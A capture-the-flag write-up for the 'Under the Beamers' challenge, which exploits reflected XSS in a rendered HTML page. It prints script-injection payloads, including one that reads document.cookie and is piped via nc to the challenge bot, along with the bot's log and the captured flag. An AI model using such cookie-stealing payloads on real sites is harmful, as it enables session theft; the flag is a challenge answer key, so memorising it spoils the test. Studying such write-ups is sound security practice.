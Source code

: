 # Under the Beamers

```
Clobbered or not clobbered, that's the question :)

See here: http://65.109.209.215:5000, the bot port is 4000!

Please download the attachment

Thanks to kevin-mizu as author! 😊
```

Inspired by <https://sec-consult.com/vulnerability-lab/advisory/reflected-cross-site-scripting-xss-in-codebeamer-alm-solution-by-ptc/>, we can inject arbitrary script into the rendered HTML:

```
<html><script>alert("abc");</script></html>
```

Visit <http://65.109.209.215:5000/> and write the html above in the text area, and you will see the popup.

Then, we ask the bot to print out the cookie for us:

```shell
$ echo '<html><script>console.log(document.cookie);</script></html>' | nc 65.109.209.215 4000
==========
Tips: Every console.log usage on the bot will be sent back to you :)
==========

Starting the browser...
[T1]> New tab created!
[T1]> navigating        | about:blank

Going to the app...

Going to the user provided link...
[T1]> navigating        | http://under-the-beamers-app.internal:5000/?html=%3Chtml%3E%3Cscript%3Econsole.log(document.cookie)%3B%3C%2Fscript%3E%3C%2Fhtml%3E
[T1]> console.log       | flag=ASIS{cfa4807db22fc60758d32ed0950a40e397c8f9c6a11ae89e8235d034f37f3987}
[T1]> console.error     | Failed to load resource: the server responded with a status of 404 (NOT FOUND)
[T1]> console.log       | Initializing Beamer. [Update and engage users effortlessly - https://getbeamer.com]
[T1]> console.error     | Failed to load resource: the server responded with a status of 404 (NOT FOUND)
```

Flag: `ASIS{cfa4807db22fc60758d32ed0950a40e397c8f9c6a11ae89e8235d034f37f3987}`.
